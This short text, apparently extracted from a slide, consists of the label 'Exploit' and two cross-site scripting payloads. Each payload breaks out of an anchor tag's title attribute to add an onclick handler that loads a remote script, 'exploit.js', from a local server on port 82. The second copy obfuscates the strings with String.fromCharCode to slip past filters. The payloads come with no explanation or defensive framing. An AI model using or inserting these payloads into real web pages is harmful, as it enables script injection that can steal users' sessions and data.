

Exploit
<a title='hacker " onclick="var s=document.createElement('script');s.setAttribute('src','http://127.0.0.1:82/exploit.js');s.onload=document.body.appendChild(s);" id="' rel="123">Exploit
<a title='hacker " onclick="var s=document.createElement(String.fromCharCode(115)+String.fromCharCode(99)+String.fromCharCode(114)+String.fromCharCode(105)+String.fromCharCode(112)+String.fromCharCode(116));s.setAttribute(String.fromCharCode(115)+String.fromCharCode(114)+String.fromCharCode(99),String.fromCharCode(104)+String.fromCharCode(116)+String.fromCharCode(116)+String.fromCharCode(112)+String.fromCharCode(58)+String.fromCharCode(47)+String.fromCharCode(47)+String.fromCharCode(49)+String.fromCharCode(50)+String.fromCharCode(55)+String.fromCharCode(46)+String.fromCharCode(48)+String.fromCharCode(46)+String.fromCharCode(48)+String.fromCharCode(46)+String.fromCharCode(49)+String.fromCharCode(58)+String.fromCharCode(56)+String.fromCharCode(50)+String.fromCharCode(47)+String.fromCharCode(101)+String.fromCharCode(120)+String.fromCharCode(112)+String.fromCharCode(108)+String.fromCharCode(111)+String.fromCharCode(105)+String.fromCharCode(116)+String.fromCharCode(46)+String.fromCharCode(106)+String.fromCharCode(115));s.onload=document.body.appendChild(s);" id="' rel="nofollow">Exploit